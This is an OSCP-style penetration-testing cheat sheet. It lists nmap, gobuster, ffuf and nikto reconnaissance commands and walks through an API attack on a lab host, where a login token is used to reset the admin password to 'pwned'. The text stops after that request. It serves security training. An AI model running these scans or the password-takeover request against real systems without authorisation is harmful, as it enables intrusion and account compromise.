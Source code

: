 # OSCP Command Cheat Sheet

Curated from the OSCP Assessment Template with added quick wins for both Linux and Windows targets.

## Network & Discovery
- `sudo nmap -sn <cidr>` – Fast discovery of live hosts via ICMP/ARP.
- `arp-scan <cidr>` – Layer 2 discovery for hosts that ignore ICMP.
- `nmap -sC -sV -p- <target>` – Full TCP enumeration with scripts and version detection.
- `nmap -sU --top-ports 100 <target>` – Lightweight UDP scan of common services.
- `whatweb <url>` – Fingerprint web technologies.
- `ffuf -u http://<host>/FUZZ -w /path/to/wordlist.txt -ic` – OWASP-style quick fuzz of directories/files.
- `gobuster dir -u http://<host> -w /path/to/wordlist.txt -x php,txt,bak` – Directory brute-force for low-effort web wins.
- `nikto -h http://<host>` – Catch obvious web misconfigurations.
- `zap-baseline.py -t http://<host>` – Rapid OWASP ZAP passive scan for easy findings.

## Web Application Testing
### Web Enumeration Examples
- `sudo nmap -p80  -sV 192.168.50.20` – Identify web server version.
- `gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5` – Discover hidden directories.
- `gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -x php,txt,html -t 10` – Deeper directory enumeration.
-  Debug Page Content: Look for comments, hidden fields, or debug info in HTML source.
-  Enumerate API:
   * patterns
    ```bash
    {GOBUSTER}/v1
    {GOBUSTER}/v2
    ```
   - `gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern` – Fuzz for API endpoints.
 - `curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login` – Test API login functionality.
   - If logoin successful, you should receive a token like below:
    ```bash
    kali@kali:~$ curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

     {"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}

    kali@kali:~$ curl  \
    'http://192.168.50.16:5002/users/v1/admin/password' \
    -H 'Content-Type: application/json' \
    -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
    -d '{"password": "pwned"}'
